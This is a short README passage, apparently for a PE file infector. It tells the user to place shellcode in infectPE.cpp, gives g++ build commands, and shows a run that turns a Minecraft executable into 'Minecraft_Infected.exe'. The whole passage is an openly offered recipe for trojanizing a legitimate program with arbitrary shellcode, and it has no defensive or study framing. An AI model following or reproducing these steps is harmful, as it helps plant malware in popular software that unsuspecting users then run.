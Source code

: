 ### Infect a file
Put the shellcode inside the infectPE.cpp (only accepts x86 executables).

```sh
> g++ -c PE.cpp -std=c++17
> g++ -c InfectPE.cpp -std=c++17
> g++ -o InfectPE.exe InfectPE.o PE.o
> ./InfectPE.exe ./Minecraft/Minecraft.exe ./Minecraft/Minecraft_Infected.exe
```